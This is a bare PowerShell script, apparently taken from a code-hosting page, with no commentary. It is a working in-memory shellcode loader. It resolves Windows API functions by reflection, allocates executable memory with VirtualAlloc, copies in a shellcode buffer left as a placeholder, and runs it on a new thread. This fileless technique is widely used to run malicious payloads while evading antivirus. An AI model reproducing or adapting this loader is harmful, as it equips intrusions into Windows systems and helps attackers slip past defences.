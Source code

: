 #### PowerShell
```powershell
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
     Equals('System.dll')
     }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}


function getDelegateType {
    Param (
     [Parameter(Position = 0, Mandatory = $True)] [Type[]]
     $func, [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
[System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('InMemoryModule', $false).
    DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass,
    AutoClass', [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public',
[System.Reflection.CallingConventions]::Standard, $func).
     SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType,
$func). SetImplementationFlags('Runtime, Managed')
    return $type.CreateType()
}

$lpMem =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = <SHELLCODE HERE>

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread =[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```
